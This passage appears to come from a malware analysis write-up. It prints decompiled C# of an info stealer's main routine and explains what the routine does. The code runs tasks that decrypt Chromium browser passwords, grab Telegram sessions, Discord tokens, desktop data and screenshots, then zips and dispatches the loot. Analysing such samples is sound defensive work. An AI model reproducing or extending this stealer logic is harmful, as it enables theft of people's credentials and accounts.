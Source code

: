 # Stage 2: Main{}

```csharp
using System;
using System.Threading.Tasks;
using Browsers;
using Grabbers;
using Messengers;
using Senders;
using SystemInfo;

namespace Main
{
	// Token: 0x02000010 RID: 16
	internal class ExecutionCore
	{
		// Token: 0x06000025 RID: 37 RVA: 0x00003680 File Offset: 0x00001880
		private static void Main(string[] args)
		{
			Task task = Task.Run(delegate
			{
				Chromium.ChromiumPasswords.DecryptingBrowsersPasswords();
			});
			Task task2 = Task.Run(delegate
			{
				Desktop.GrabberDesktop();
			});
			Task task3 = Task.Run(delegate
			{
				Telegram.GrabberTelegramSession();
			});
			Task task4 = Task.Run(delegate
			{
				Discord.GrabberDiscordToken();
			});
			Task task5 = Task.Run(delegate
			{
				Screenshot.GrabberScreenshot();
			});
			Task.WaitAll(new Task[] { task, task2, task3, task4, task5 });
			DataDispatch.ZipCompression();
			DataDispatch.Dispatch(Variables.ID);
		}
	}
}
```

When the info stealer is launched, the first thing `Main{}` executes is multiple asynchronous tasks concurrently to collect sensitive data from different sources:

- Decrypting saved passwords from Chromium-based browsers.
- Grabbing desktop information (system details or user activities).
- Extracting Telegram session data.
- Retrieving Discord tokens.
- Capturing screenshots of the user's screen.
